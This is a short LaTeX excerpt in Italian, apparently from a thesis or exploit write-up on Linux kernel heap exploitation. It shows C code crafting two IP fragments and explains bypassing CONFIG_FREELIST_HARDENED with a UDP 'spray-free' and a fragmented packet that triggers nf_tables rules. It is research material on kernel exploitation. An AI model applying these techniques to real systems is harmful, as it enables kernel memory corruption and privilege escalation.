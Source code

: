 \documentclass{article}
\begin{document}
\begin{lstlisting}[language=C,style=CStyle,caption="Creazione di due frammenti per un pacchetto IP"]
iph1->len = sizeof(struct ip_header)*2 + 64;
iph1->offset = ntohs(0 | IP_MF); // set MORE FRAGMENTS flag 
memset(iph1_body, 'A', 8); 
transmit(iph1, iph1_body, 8); 

iph2->len = sizeof(struct ip_header)*2 + 64; 
iph2->offset = ntohs(8 >> 3); // don't set IP_MF since this is the last packet 
memset(iph2_body, 'A', 56); 
transmit(iph2, iph2_body, 56);
\end{lstlisting}


\begin{figure}[h]
  \begin{center}
    \includegraphics[width=.75\textwidth]{figures/ch1/switching_skb_cpu-1.png}
  \end{center}
  \caption{Utilizzo della frammentazione IP per spostare un skb da una CPU ad un'altra}\label{fig:skb-migr}
\end{figure}

\subsubsection{Superare CONFIG\_FREELIST\_HARDENED} Nei moderni Kernel, è stato introdotto 
un controllo per assicurare che le freelist del PCP non siano corrotte. Questo meccanismo 
viene aggirato inviando dei pacchetti UDP veri su una socket in ascolto su un indirizzo locale. 
In questo modo, ricevendo i datagrammi UDP si effettuano a ripetizione delle free realizzando 
la \textbf{\textit{spray-free}} dei pacchetti allocati. Infine, si invia un pacchetto frammentato 
che andrà ad impattare le regole nf\_tables configurate all'inizio dell'exploit per attivare 
il primo free.
\end{document}
